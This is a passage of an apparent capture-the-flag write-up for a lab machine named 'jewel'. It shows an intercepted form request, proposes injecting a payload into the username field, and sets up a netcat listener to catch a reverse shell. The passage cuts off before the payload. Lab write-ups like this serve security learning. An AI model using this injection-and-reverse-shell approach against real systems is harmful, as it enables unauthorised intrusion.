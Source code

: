 ![3da7897cc89b9acb5f0b49ebe77ce96e.png](/images/8eed0c4b477e471cabc64941d84f3277.png)

I made a test and analyze the request with `ZAP`. 

> POST http://jewel:8080/users/18 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://jewel:8080/users/18/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Origin: http://jewel:8080
DNT: 1
Connection: keep-alive
Cookie: _session_id=f58ed559521ce3d89374cf969dd8b02c
Upgrade-Insecure-Requests: 1
Host: jewel:8080
>
>utf8=%E2%9C%93&_method=patch&authenticity_token=tenfVCKVmgVpX1DxJrgDCKUrS8oaUcCO10GnIZ3HAfoEFOxysZe1O%2B43zcZv2TUMaq2uSj3MkAB6MmTJKzjirA%3D%3D&user%5Busername%5D=rockyeah&commit=Update+User

It might be possible to inject our payload inside the `username` parameter. 

Let's try that !

First I set up a `netcat` listener.

{% highlight sh %}
nc -lvnp 3333
{% endhighlight %}

Then, all I need to do is intercepting the request with `ZAP`, remove the username value and inject my payload. Like this:
